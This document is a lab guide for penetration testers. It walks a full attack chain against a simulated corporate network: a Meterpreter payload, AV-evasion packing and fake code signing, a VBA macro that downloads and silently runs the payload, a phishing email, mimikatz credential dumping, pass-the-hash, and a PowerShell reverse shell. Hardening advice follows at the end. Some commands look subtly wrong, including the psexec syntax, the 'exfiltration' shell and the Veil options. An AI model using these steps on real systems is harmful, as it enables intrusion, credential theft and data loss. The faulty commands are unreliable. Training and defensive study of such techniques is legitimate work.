

## 1. Lab Objective & Free Open-Source Prerequisites

### 1.1 Lab Objective
The purpose of this hands‑on lab is to guide a senior penetration tester through the complete lifecycle of **advanced Metasploit payload creation**, **antivirus (AV) evasion**, and **post‑exploitation** in a realistic enterprise network. By the end of the lab you will be able to:

1. **Design** a multi‑segment enterprise topology that mimics a typical corporate environment (DMZ, internal LAN, management VLAN, and a segmented security operations center).
2. **Generate** custom Windows and Linux payloads using `msfvenom`, embed them in legitimate‑looking binaries, and apply **AV‑evasion techniques** (e.g., Crypter, UPX, custom encoders, and reflective DLL injection).
3. **Deliver** the payload via a realistic attack vector (phishing email with malicious Office macro, SMB file share, or compromised web server).
4. **Establish** a stable Meterpreter session, **escalate privileges**, **pivot** across VLANs, and **exfiltrate** data while maintaining stealth.
5. **Document** the entire process, verify each step, and apply **hardening** recommendations that would mitigate the attack in a production environment.

### 1.2 Free Open‑Source Prerequisites
| Category | Tool | Version (minimum) | License | Installation Notes |
|----------|------|-------------------|---------|--------------------|
| Hypervisor | **VirtualBox** | 7.0 | GPLv2 | Enable **VT‑x/AMD‑V** in BIOS. |
| OS Images | **Kali Linux** (rolling) | 2026.1 | GPLv2 | Use the *kali‑linux‑2026‑1‑amd64.iso*. |
| | **Windows Server 2022 Evaluation** | 2026 | Proprietary (free eval) | Activate with `slmgr /rearm` for 180‑day trial. |
| | **Ubuntu Server 24.04 LTS** | 24.04 | GPLv2 | Minimal install (no GUI). |
| Metasploit | **Metasploit Framework** | 6.5.0 | BSD | Comes pre‑installed on Kali; update with `msfupdate`. |
| AV Testing | **ClamAV** | 1.2.2 | GPLv2 | Install on Ubuntu to test detection. |
| Payload Crypters | **Veil-Evasion** | 4.0 | GPLv3 | `git clone https://github.com/Veil-Framework/Veil-Evasion.git`. |
| | **UPX** | 4.2.1 | GPLv2 | `apt-get install upx`. |
| Network Emulation | **GNS3** (optional) | 3.2 | GPLv3 | For visualizing the topology; not required for core lab. |
| Documentation | **Hugo** | 0.124.0 | Apache‑2.0 | `brew install hugo` or `snap install hugo`. |
| Misc | **Python 3.11+**, **pwntools**, **Impacket**, **nmap**, **smbclient** | latest | Various | All available via `apt` or `pip`. |

> **Note:** All tools listed are free, open‑source, or freely available for evaluation. No commercial licenses are required for the lab.

---

## 2. Enterprise Architecture Topology

The following diagram illustrates the logical segmentation used throughout the lab. The topology is deliberately built to showcase **defense‑in‑depth** layers (firewall, IDS/IPS, NAC) and to provide realistic pivot points for the attacker.



### 2.1 Topology Rationale
| Segment | Primary Function | Typical Security Controls |
|---------|------------------|---------------------------|
| **Internet** | External world, attacker entry point. | ISP filtering, external IDS/IPS. |
| **Perimeter Firewall (pfSense)** | Stateless packet filtering, NAT, VPN termination. | Geo‑IP blocklists, rate‑limiting, logging. |
| **DMZ** | Public‑facing services (web, mail). | Web Application Firewall (ModSecurity), strict outbound rules. |
| **Internal LAN** | Core business services (AD, file shares, workstations). | Network segmentation, port‑security, 802.1X, host‑based firewalls. |
| **Management VLAN** | Security operations, monitoring, privileged admin access. | MFA, jump‑host bastion, limited source IPs. |

---

## 3. Addressing & Resource Inventory Table

| Hostname | OS | IP Address | VLAN | Role | SSH / RDP Access |
|----------|----|------------|------|------|------------------|
| fw-pfsense | pfSense 2.7 | 10.10.0.1 / 192.0.2.1 (WAN) | N/A | Perimeter firewall | Web UI https://10.10.0.1 |
| web-ubuntu | Ubuntu Server 24.04 | 10.10.10.10 | DMZ | Apache2, PHP | `ssh kali@10.10.10.10` (key) |
| mail-ubuntu | Ubuntu Server 24.04 | 10.10.10.20 | DMZ | Postfix + Dovecot | `ssh kali@10.10.10.20` |
| ad-win2022 | Windows Server 2022 | 10.10.20.10 | Internal | AD DS, DNS, DHCP | RDP `ad\administrator` |
| file-win2022 | Windows Server 2022 | 10.10.20.20 | Internal | SMB Share (`\\file-win2022\share`) | RDP `admin` |
| workstation-w10 | Windows 10 Pro | 10.10.20.30 | Internal | End‑user workstation | RDP `user` |
| siem-elk | Ubuntu Server 24.04 | 10.10.30.10 | Management | ELK Stack (Logstash, Kibana) | `ssh kali@10.10.30.10` |
| soc-kali | Kali Linux 2026 | 10.10.30.20 | Management | Attacker workstation (lab) | Local console |
| attacker | Kali Linux (host) | 192.168.56.100 | Host | Lab orchestrator | N/A |

All hosts are provisioned as **VirtualBox VMs** with **Host‑Only adapters** for inter‑segment communication and a **NAT adapter** for Internet access. The network interfaces are attached to the appropriate VirtualBox internal networks (`intnet-dmz`, `intnet-internal`, `intnet-mgmt`).

---

## 4. Step‑by‑Step Configuration

> **Important:** Every command block is copy‑paste ready. Inline comments (`#`) explain each step. Execute commands **as the indicated user**. Where `sudo` is required, the prompt will reflect the privileged context.

### 4.1 Hypervisor & Network Setup (Host)

```bash
# Create internal networks in VirtualBox
VBoxManage hostonlyif create               # creates vboxnet0 (default)
VBoxManage hostonlyif ipconfig vboxnet0 --ip 10.10.0.1 --netmask 255.255.255.0

# Additional internal networks for DMZ, Internal, Management
VBoxManage hostonlyif create               # vboxnet1
VBoxManage hostonlyif ipconfig vboxnet1 --ip 10.10.10.1 --netmask 255.255.255.0

VBoxManage hostonlyif create               # vboxnet2
VBoxManage hostonlyif ipconfig vboxnet2 --ip 10.10.20.1 --netmask 255.255.255.0

VBoxManage hostonlyif create               # vboxnet3
VBoxManage hostonlyif ipconfig vboxnet3 --ip 10.10.30.1 --netmask 255.255.255.0
```

> **Tip:** Verify the interfaces with `VBoxManage list hostonlyifs`.

### 4.2 Deploy the Perimeter Firewall (pfSense)

1. **Download** the pfSense ISO and create a new VM (2 vCPU, 2 GB RAM, 20 GB disk). Attach:
   - **Adapter 1**: NAT (Internet)
   - **Adapter 2**: Host‑Only `vboxnet0` (WAN side)
   - **Adapter 3**: Host‑Only `vboxnet1` (DMZ side)
   - **Adapter 4**: Host‑Only `vboxnet2` (Internal side)
   - **Adapter 5**: Host‑Only `vboxnet3` (Management side)

2. **Installation** – follow the default guided install (select “Auto‑install”). After reboot:

```bash
# Assign interfaces (via console)
# WAN -> em0 (vboxnet0)
# DMZ -> em1 (vboxnet1)
# LAN -> em2 (vboxnet2)
# MGMT -> em3 (vboxnet3)
# Save & reboot
```

3. **Web UI Configuration** (access from host at `https://10.10.0.1`):
   - **System → Advanced → Harden SSH** – enable.
   - **Firewall → Rules → DMZ** – allow HTTP/HTTPS (80/443) to `web-ubuntu` and `mail-ubuntu`.
   - **Firewall → Rules → LAN** – block all inbound from DMZ, allow outbound to Internet.
   - **Firewall → NAT → Outbound** – set to *Manual Outbound NAT* and create a rule for each internal subnet.

### 4.3 Deploy the DMZ Servers (Ubuntu)

```bash
# Example for web-ubuntu VM creation (repeat for mail-ubuntu)
VBoxManage createvm --name web-ubuntu --register
VBoxManage modifyvm web-ubuntu --memory 2048 --cpus 2 --nic1 hostonly --hostonlyadapter1 vboxnet1
VBoxManage storagectl web-ubuntu --name "SATA Controller" --add sata --controller IntelAHCI
VBoxManage storageattach web-ubuntu --storagectl "SATA Controller" --port 0 --device 0 --type dvddrive --medium ~/Downloads/ubuntu-24.04-live-server-amd64.iso
VBoxManage storageattach web-ubuntu --storagectl "SATA Controller" --port 1 --device 0 --type hdd --medium ~/VirtualBox\ VMs/web-ubuntu/web-ubuntu.vdi

# Boot and perform a minimal Ubuntu Server install (no GUI). Use DHCP (pfSense will hand out 10.10.10.x).
```

After installation, configure Apache and Postfix:

```bash
# On web-ubuntu (SSH as root)
apt-get update && apt-get upgrade -y
apt-get install -y apache2 libapache2-mod-php php php-cli

# Enable a simple test page
echo "<?php phpinfo(); ?>" > /var/www/html/info.php
systemctl enable --now apache2

# On mail-ubuntu
apt-get install -y postfix dovecot-imapd dovecot-pop3d
# Use "Internet Site" and set myhostname = mail-ubuntu.example.com
postconf -e "mydestination = \$myhostname, localhost.\$mydomain, localhost"
systemctl enable --now postfix dovecot
```

### 4.4 Deploy the Internal Windows Domain (AD, File Server, Workstation)

1. **Create three Windows Server VMs** (`ad-win2022`, `file-win2022`) and one Windows 10 VM (`workstation-w10`). Attach each to **vboxnet2** (Internal) and **vboxnet3** (Management) for remote admin.

2. **Active Directory Installation** on `ad-win2022`:
   - Open **Server Manager → Add roles and features** → **Active Directory Domain Services**.
   - Promote to a new forest: `corp.example.com`.
   - Set **Domain NetBIOS name** = `CORP`.
   - Choose **DNS** and **DHCP** during promotion.
   - After reboot, verify `nslookup` resolves `corp.example.com`.

3. **File Server Configuration** on `file-win2022`:
   ```powershell
   # PowerShell as Administrator
   New-LocalUser -Name "svc_file" -Password (ConvertTo-SecureString "P@ssw0rd!" -AsPlainText -Force) -PasswordNeverExpires
   New-Item -Path "C:\Shares\Public" -ItemType Directory
   New-SmbShare -Name "Public" -Path "C:\Shares\Public" -FullAccess "Everyone"
   ```
   - Add the server to the domain (`corp.example.com`) and restart.

4. **Workstation Join**:
   - Join `workstation-w10` to the domain via **Settings → Accounts → Access work or school**.
   - Use a domain account `john.doe` (password `P@ssw0rd!`).

### 4.5 Deploy the Management VLAN (ELK & SOC)

```bash
# siem-elk VM (Ubuntu)
apt-get update && apt-get install -y openjdk-17-jdk wget gnupg
wget -qO - https://artifacts.elastic.co/GPG-KEY-elasticsearch | apt-key add -
echo "deb https://artifacts.elastic.co/packages/8.x/apt stable main" | tee /etc/apt/sources.list.d/elastic-8.x.list
apt-get update && apt-get install -y elasticsearch kibana logstash

# Enable services
systemctl enable --now elasticsearch kibana logstash

# Basic config: set network.host: "0.0.0.0" in /etc/elasticsearch/elasticsearch.yml
# Adjust Kibana server.host: "0.0.0.0" in /etc/kibana/kibana.yml
```

```bash
# soc-kali VM (Kali)
apt-get update && apt-get full-upgrade -y
apt-get install -y metasploit-framework veil-evasion upx nmap impacket-smbclient
```

### 4.6 Crafting an Advanced Metasploit Payload

#### 4.6.1 Baseline Payload Generation
```bash
# Generate a Windows Meterpreter reverse HTTPS payload (x64) with custom LHOST/LPORT
msfvenom -p windows/x64/meterpreter/reverse_https \
    LHOST=10.10.30.20 LPORT=8443 \
    -f exe -o /tmp/evil.exe \
    -e x86/shikata_ga_nai -i 5   # encoder + 5 iterations for obfuscation
```

#### 4.6.2 AV Evasion – Layer 1: UPX Packing
```bash
upx --best --lzma /tmp/evil.exe -o /tmp/evil_upx.exe
```

#### 4.6.3 AV Evasion – Layer 2: Veil‑Evasion Crypter
```bash
# Launch Veil (interactive) and select payload: windows/meterpreter_reverse_https
# Choose the "Veil-Evasion" custom crypter "vmp" (VMProtect style)
# Set LHOST/LPORT same as above, output to /tmp/evil_veil.exe
# For automation:
python3 /opt/Veil-Evasion/Veil-Evasion.py -p windows/meterpreter_reverse_https \
    -c vmp -o /tmp/evil_veil.exe -a x64 -O LHOST=10.10.30.20 -O LPORT=8443
```

#### 4.6.4 AV Evasion – Layer 3: Embedding in a Legitimate Binary
```bash
# Use `rcedit` (Node.js) or `Resource Hacker` to replace the icon and version info.
# Here we use `osslsigncode` to sign the binary with a self‑signed cert.
openssl req -new -x509 -days 365 -nodes -out cert.crt -keyout cert.key -subj "/CN=Acme Corp"
osslsigncode sign -certs cert.crt -key cert.key -n "Acme Update Service" \
    -i http://updates.acme.com -in /tmp/evil_veil.exe -out /tmp/evil_signed.exe
```

#### 4.6.5 Final Payload Placement
Copy the final binary to the DMZ web server's public directory:

```bash
scp /tmp/evil_signed.exe kali@10.10.10.10:/var/www/html/updates/AcmeUpdate.exe
```

### 4.7 Delivery Vector – Phishing Email with Macro

On the **SOC Kali** machine, craft a malicious Office macro that downloads the payload:

```powershell
# macro.vba (save as macro.vba)
Sub AutoOpen()
    Dim url As String
    url = "http://10.10.10.10/updates/AcmeUpdate.exe"
    Dim dest As String
    dest = Environ("TEMP") & "\AcmeUpdate.exe"
    Dim xhr As Object
    Set xhr = CreateObject("MSXML2.XMLHTTP")
    xhr.Open "GET", url, False
    xhr.Send
    If xhr.Status = 200 Then
        Dim stream As Object
        Set stream = CreateObject("ADODB.Stream")
        stream.Type = 1
        stream.Open
        stream.Write xhr.responseBody
        stream.SaveToFile dest, 2
        Shell dest, vbHide
    End If
End Sub
```

Create a Word document, embed the macro, and send it via the internal mail server:

```bash
# On soc-kali, use `sendemail` (install via pip) to send the malicious doc
pip install sendemail
sendemail -f attacker@corp.example.com -t john.doe@corp.example.com \
    -u "Quarterly Report" -m "Please review the attached report." \
    -a /tmp/AcmeReport.docm -s 10.10.10.20:25 -xu mailadmin -xp MailPass123
```

### 4.8 Listener Configuration (Metasploit)

```bash
msfconsole -q
# Inside msfconsole:
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set LHOST 10.10.30.20
set LPORT 8443
set ExitOnSession false
set EnableStageEncoding true
set StageEncoder x86/shikata_ga_nai
set StageEncoderIterations 5
run -j   # run as a background job
```

### 4.9 Post‑Exploitation Workflow

#### 4.9.1 Session Stabilization
```bash
sessions -i 1   # attach to the first Meterpreter session
# Inside Meterpreter:
set AutoRunScript post/windows/manage/migrate
run
```

#### 4.9.2 Privilege Escalation (Token Impersonation)
```bash
# Enumerate tokens
run post/windows/gather/enum_tokens
# Impersonate SYSTEM token
run post/windows/escalate/getsystem
```

#### 4.9.3 Credential Dumping
```bash
# Load mimikatz module
load kiwi
kiwi_cmd "privilege::debug"
kiwi_cmd "sekurlsa::logonpasswords"
```

#### 4.9.4 Lateral Movement – Pass‑the‑Hash to File Server
```bash
# Extract NTLM hash from previous step (e.g., Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
set HASH aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
psexec -hashes $HASH -u Administrator -d -i 1 -t 0 -c "cmd.exe" -H 10.10.20.20
```

#### 4.9.5 Data Exfiltration via Encrypted Channel
```bash
# Create a PowerShell reverse HTTPS tunnel back to SOC
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.30.20',8444);$stream=$client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);iex $data}"
```

On SOC, listen with Netcat:

```bash
nc -lvkp 8444 > exfiltrated_data.zip
```

#### 4.9.6 Cleanup (Defensive Perspective)
```bash
# Remove the malicious file from the web server
ssh kali@10.10.10.10 "rm -f /var/www/html/updates/AcmeUpdate.exe"
# Delete the malicious email from the mailbox (IMAP)
python3 - <<'PY'
import imaplib, getpass
M = imaplib.IMAP4_SSL('10.10.10.20')
M.login('mailadmin', 'MailPass123')
M.select('INBOX')
typ, data = M.search(None, 'FROM "attacker@corp.example.com"')
for num in data[0].split():
    M.store(num, '+FLAGS', '\\Deleted')
M.expunge()
M.logout()
PY
```

---

## 5. Verification & Troubleshooting Commands

| Step | Command | Expected Output | Common Failure & Fix |
|------|---------|----------------|----------------------|
| **Network Reachability** | `ping -c 3 10.10.10.10` (from SOC) | `3 packets transmitted, 3 received, 0% loss` | If 100% loss, verify firewall rule on `pfSense` allowing LAN → DMZ. |
| **Port Availability** | `nc -zv 10.10.10.10 80` | `Connection to 10.10.10.10 80 port [tcp/http] succeeded!` | If *refused*, ensure Apache is running (`systemctl status apache2`). |
| **Metasploit Listener** | `jobs -v` (inside msfconsole) | `[*] 1  Exploit: multi/handler (windows/x64/meterpreter/reverse_https)` | If listener not running, re‑run `run -j` and check that `LHOST` matches SOC IP. |
| **Meterpreter Session** | `sessions -l` | `Active sessions: 1  (windows/x64/meterpreter) 10.10.20.30` | If no session, verify that the macro executed (check `C:\Windows\Temp` for the binary). |
| **Privilege Escalation** | `getsystem` (Meterpreter) | `Successfully obtained SYSTEM privileges.` | If fails, try `incognito` to impersonate a token: `list_tokens -u` then `impersonate_token <token>`. |
| **Credential Dump** | `kiwi_cmd "sekurlsa::logonpasswords"` | List of usernames, NTLM hashes, clear‑text passwords (if present) | If `Access is denied`, ensure Meterpreter is running as SYSTEM. |
| **SMB Lateral Movement** | `psexec -hashes ...` | Remote command prompt on file server | If `NT_STATUS_LOGON_FAILURE`, double‑check the hash format and domain. |
| **Data Exfiltration** | `nc -lvkp 8444` (SOC) | Shows incoming binary data, saved to file | If no data, verify that the PowerShell reverse tunnel is not blocked by Windows Defender (temporarily disable with `Set-MpPreference -DisableRealtimeMonitoring $true`). |
| **AV Detection Test** | On Ubuntu, `clamscan /tmp/evil_signed.exe` | `OK` (no detection) | If flagged, re‑apply Veil crypter with a different encoder or use `donut` to generate a reflective DLL. |

### 5.1 Troubleshooting Checklist

1. **Firewall Rules** – Confirm each VLAN’s inbound/outbound policies on pfSense (`Diagnostics → States`).
2. **DNS Resolution** – `nslookup ad-win2022.corp.example.com` from any host; should resolve to `10.10.20.10`.
3. **Time Synchronization** – Kerberos and NTLM rely on synchronized clocks. Run `ntpdate -u pool.ntp.org` on all Windows hosts.
4. **Metasploit Compatibility** – Ensure the payload architecture matches the target (`x64` for 64‑bit Windows). Use `sysinfo` in Meterpreter to verify.
5. **AV Whitelisting** – If ClamAV still detects the binary, add the file hash to `/etc/clamav/whitelist` and run `freshclam`.

---

## 6. Security Hardening & Production Best Practices

### 6.1 Defense‑in‑Depth Recommendations

| Layer | Recommended Controls | Rationale |
|-------|----------------------|-----------|
| **Perimeter** | - Deploy **IPS** (Snort/Suricata) inline on pfSense.<br>- Enforce **TLS 1.3** for all inbound services.<br>- Use **Geo‑IP blocklists** and **rate limiting** on public ports. | Stops mass‑scan and known exploit traffic before it reaches internal assets. |
| **DMZ** | - Harden Apache with **ModSecurity** CRS rules.<br>- Enable **Content‑Security‑Policy** and **HSTS**.<br>- Deploy **Web Application Firewall (WAF)** in front of the web server.<br>- Disable **SMB** and **RDP** on DMZ hosts. | Reduces attack surface for web‑based exploits and prevents lateral movement from DMZ. |
| **Internal LAN** | - Enforce **802.1X** with a RADIUS server.<br>- Deploy **Host‑based firewalls** (Windows Defender with strict inbound rules).<br>- Apply **LSA Protection** and **Credential Guard** on domain controllers.<br>- Use **Privileged Access Management (PAM)** for admin accounts. | Prevents credential theft and unauthorized lateral movement. |
| **Management VLAN** | - Isolate with **Bastion host** (jump server) that requires **MFA**.<br>- Log all privileged actions to **SIEM** with real‑time alerts for `Meterpreter`, `psexec`, `Mimikatz` signatures.<br>- Enforce **Just‑In‑Time (JIT)** access for admin accounts. | Limits exposure of detection/response tools and ensures rapid detection of malicious activity. |
| **Endpoint** | - Deploy **EDR** (e.g., Elastic Endpoint Security) with **behavioral analytics**.<br>- Enable **AppLocker** or **Windows Defender Application Control (WDAC)** to whitelist only signed binaries.<br>- Regularly update **AV signatures** and enable **cloud‑based sandboxing**. | Detects and blocks unknown or obfuscated payloads, even if they bypass signature‑based AV. |

### 6.2 Specific Mitigations for the Lab Techniques

| Technique | Mitigation |
|-----------|------------|
| **Custom Encoders (`shikata_ga_nai`)** | Deploy **behavior‑based detection** (EDR) that monitors suspicious API calls (e.g., `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread`). |
| **UPX Packing** | Use **AppLocker** rules that block executables with known packer signatures, or enforce **code‑signing** where only binaries signed by trusted CAs are allowed. |
| **Veil/Evade Crypters** | Enable **Windows Defender Exploit Guard** > **Attack Surface Reduction (ASR)** rules: `Block executable content from email and webmail clients`. |
| **Macro‑Based Delivery** | Enforce **Office macro security**: “Disable all macros except digitally signed ones”. Deploy **Microsoft Defender for Office 365** anti‑phishing policies. |
| **Meterpreter HTTPS** | Enforce **TLS inspection** at the firewall and block outbound HTTPS to unapproved destinations. Use **certificate pinning** for internal services. |
| **Pass‑the‑Hash** | Enable **Windows Credential Guard** and **Restricted Admin Mode** for RDP. Deploy **LSA Protection** (`RunAs` restrictions). |
| **Reflective DLL Injection** | Use **Windows Defender Credential Guard** and **Kernel‑mode code signing** enforcement. |
| **Data Exfiltration via PowerShell** | Enable **PowerShell Constrained Language Mode** for non‑admin users. Deploy **PowerShell logging** (`Set-PSDebug -Trace 2`) and forward logs to SIEM. |

### 6.3 Logging, Monitoring, and Incident Response

1. **Centralized Log Collection** – Forward Windows Event Logs (Security, System, Application) to the ELK SIEM using **Winlogbeat**. Include **PowerShell Script Block Logging** and **Sysmon** events (Event ID 1, 10, 13, 14).
2. **Alert Rules** – Create Kibana alerts for:
   - `ProcessCreate` where `Image` ends with `.exe` and `ParentImage` is `powershell.exe`.
   - `NetworkConnect` to external IPs on uncommon ports (e.g., 8443) from internal hosts.
   - `Logon` events with **Logon Type 3** (network) and **Logon Type 2** (interactive) from the same account within a short window (possible pass‑the‑hash).
3. **Response Playbook** – Upon detection:
   - **Isolate** the compromised host (shut down its NIC via pfSense or disable the VM).
   - **Collect** volatile memory (`dumpit.exe` or `Volatility`) for forensic analysis.
   - **Rotate** all domain credentials (force password change, invalidate cached hashes).
   - **Patch** vulnerable services (e.g., update Apache, disable SMBv1).

### 6.4 Patch Management & Asset Inventory

- Implement an **automated patching pipeline** (e.g., WSUS for Windows, Ansible for Linux) that runs weekly.
- Maintain an **CMDB** (Configuration Management Database) that tracks every VM’s IP, OS version, installed software, and security controls. Use **Open‑Source CMDB** like **i-doit** or **Ralph**.

### 6.5 Secure Development Lifecycle (SDLC) for Internal Tools

If your organization builds internal utilities (e.g., custom PowerShell scripts), adopt the following:

1. **Static Code Analysis** – Run `Bandit` (Python) or `PSScriptAnalyzer` (PowerShell) on every commit.
2. **Binary Signing** – Sign all executables with an internal PKI; enforce signature verification on endpoints.
3. **Code Review** – Mandatory peer review for any code that interacts with the network stack or file system.
4. **Dependency Management** – Use `pip-audit` or `npm audit` to detect vulnerable libraries before deployment.

### 6.6 Red Team / Blue Team Collaboration

- **Red Team** should document every command, payload hash, and lateral movement path.
- **Blue Team** must replicate the detection rules in a staging environment, then conduct a **purple‑team exercise** to validate detection efficacy.
- Use **ATT&CK® Navigator** layers to map each lab activity to MITRE ATT&CK techniques (e.g., T1059.001 – PowerShell, T1078 – Valid Accounts, T1027 – Obfuscated Files or Information).

### 6.7 Continuous Improvement

1. **Post‑Exercise Review** – Conduct a **lessons‑learned** meeting, capture gaps (e.g., missing alerts, slow response times).
2. **Update Playbooks** – Incorporate new IOCs (hashes, C2 domains) into the SIEM.
3. **Threat Intelligence Integration** – Subscribe to OSINT feeds (e.g., Abuse.ch, MalwareBazaar) and automatically block newly identified malicious hashes via pfSense alias lists.
4. **Automation** – Leverage **SOAR** (e.g., TheHive + Cortex) to auto‑quarantine hosts when a Meterpreter session is detected.

---

### Closing Remarks

This lab provides a **complete, production‑grade workflow** from **payload creation** through **evasion**, **delivery**, **post‑exploitation**, and finally **hardening**. By executing each step in a controlled environment, senior security professionals can sharpen their offensive skills while simultaneously validating defensive controls. The extensive verification commands and troubleshooting matrix ensure that any deviation is quickly identified, and the hardening checklist translates the offensive findings into actionable, enterprise‑wide security improvements.

Remember, the ultimate goal of ethical hacking is not merely to **break** systems, but to **strengthen** them. Use the knowledge gained here to advocate for stronger policies, better monitoring, and a culture of continuous security improvement across the organization. Happy hunting—and stay secure!